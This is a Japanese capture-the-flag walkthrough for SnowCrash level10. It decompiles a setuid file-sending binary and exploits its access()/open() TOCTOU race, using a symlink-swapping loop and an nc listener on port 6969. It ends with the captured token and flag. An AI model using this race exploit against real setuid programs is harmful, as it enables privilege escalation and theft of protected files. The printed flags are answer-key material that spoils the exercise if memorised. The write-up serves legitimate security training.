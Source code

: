 ## ~に存在するファイルを確認
```sh
ls -l
total 16
-rwsr-sr-x+ 1 flag10 level10 10817 Mar  5  2016 level10
-rw-------  1 flag10 flag10     26 Mar  5  2016 token
```

## ghidraでdisassする

```c
void main(int ac, char **argv)

{
  char *__cp;
  uint16_t uVar1;
  int iVar2;
  int iVar3;
  ssize_t sVar4;
  size_t __n;
  int *piVar5;
  char *file_name;
  int in_GS_OFFSET;
  undefined local_1024 [4096];
  sockaddr local_24;

  if (ac < 3) {
    printf("%s file host\n\tsends file to host if you have access to it\n",*argv);
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  file_name = (char *)argv[1];
  __cp = (char *)argv[2];

  iVar2 = access((char *)argv[1],R_OK);
  if (iVar2 == 0) {
    printf("Connecting to %s:6969 .. ",__cp);
    fflush(stdout);
    iVar2 = socket(2,1,0);
    local_24.sa_data[2] = '\0';
    local_24.sa_data[3] = '\0';
    local_24.sa_data[4] = '\0';
    local_24.sa_data[5] = '\0';
    local_24.sa_data[6] = '\0';
    local_24.sa_data[7] = '\0';
    local_24.sa_data[8] = '\0';
    local_24.sa_data[9] = '\0';
    local_24.sa_data[10] = '\0';
    local_24.sa_data[0xb] = '\0';
    local_24.sa_data[0xc] = '\0';
    local_24.sa_data[0xd] = '\0';
    local_24.sa_family = 2;
    local_24.sa_data[0] = '\0';
    local_24.sa_data[1] = '\0';
    local_24.sa_data._2_4_ = inet_addr(__cp);
    uVar1 = htons(0x1b39);
    local_24.sa_data._0_2_ = uVar1;
    iVar3 = connect(iVar2,&local_24, 0x10);
    if (iVar3 == -1) {
      printf("Unable to connect to host %s\n",__cp);
                    /* WARNING: Subroutine does not return */
      exit(1);
    }
    sVar4 = write(iVar2,".*( )*.\n",8);
    if (sVar4 == -1) {
      printf("Unable to write banner to host %s\n",__cp);
                    /* WARNING: Subroutine does not return */
      exit(1);
    }
    printf("Connected!\nSending file .. ");
    fflush(stdout);
    iVar3 = open(file_name,O_RDONLY);
    if (iVar3 == -1) {
      puts("Damn. Unable to open file");
                    /* WARNING: Subroutine does not return */
      exit(1);
    }
    __n = read(iVar3,local_1024,0x1000);
    if (__n == 0xffffffff) {
      piVar5 = __errno_location();
      file_name = strerror(*piVar5);
      printf("Unable to read from file: %s\n",file_name);
                    /* WARNING: Subroutine does not return */
      exit(1);
    }
    write(iVar2,local_1024,__n);
    puts("wrote file!");
  }
  else {
    printf("You don\'t have access to %s\n",file_name);
  }

  return;
}
```
## 関数のポイント
`access((char *)argv[1],R_OK);` は実ユーザーでファイル読み取り権限を確認するため、`level10`ユーザーが`token`を引数に渡すとでエラーになる。
一方、`open(file_name,O_RDONLY);` は実効ユーザーである`flag10` の権限でファイルアクセス権限を確認する。
したがって、`access((char *)argv[1],R_OK);`をうまく突破すれば`token`の中身を確認できる。

`TOCTOU`というのがある。チェックと使用タイミングのズレがあると問題になる。つまり、`open` と`access` の間に脆弱性がある。
https://en.wikipedia.org/wiki/Time-of-check_to_time-of-use
## エクスプロイト

### シンボリックリンクを操作するスクリプト
１つ目のスクリプトは、実ユーザー権限がある`/tmp/sym_token`を読み込ませて、`access`関数を突破する。
その後、`read`関数の前までに`/tmp/sym_token` と`token`をシンボリックリンクし、`token`を`write`する。

```sh
echo '#!/bin/bash' > /tmp/script
echo 'while true; do' >> /tmp/script
echo '> /tmp/sym_token' >> /tmp/script
echo './level10 /tmp/sym_token  127.0.0.1 &' >> /tmp/script
echo 'ln -sf /home/user/level10/token /tmp/sym_token' >> /tmp/script
echo 'rm -f /tmp/sym_token' >> /tmp/script
echo 'done' >> /tmp/script

chmod +x /tmp/script
```

### 受信した文字列をファイルに保存するスクリプト
```sh
echo '#!/bin/bash' > /tmp/script1
echo '> /tmp/pw' >> /tmp/script1
echo 'while true; do' >> /tmp/script1
echo 'nc -l 6969 >> /tmp/pw' >> /tmp/script1
echo 'done' >> /tmp/script1

chmod +x /tmp/script1
```
### 実行
タイミングを完璧に制御できないため、試行回数でカバーする必要がある。
```sh
/tmp/script > /dev/null 2>&1 &
/tmp/script1 > /dev/null 2>&1 &

# 少し経ったらプロセスを終了する
pkill -f /tmp/script
pkill -f /tmp/script1
```

### 確認する
```sh
grep -v '\.\*\( \)*' /tmp/pw
woupa2yuojeeaaed06riuj63c
woupa2yuojeeaaed06riuj63c
woupa2yuojeeaaed06riuj63c
woupa2yuojeeaaed06riuj63c
woupa2yuojeeaaed06riuj63c
```

```sh
level10@SnowCrash:~$ su flag10
Password:
Don't forget to launch getflag !
flag10@SnowCrash:~$ getflag
Check flag.Here is your token : feulo4b72j7edeahuete3no7c
```
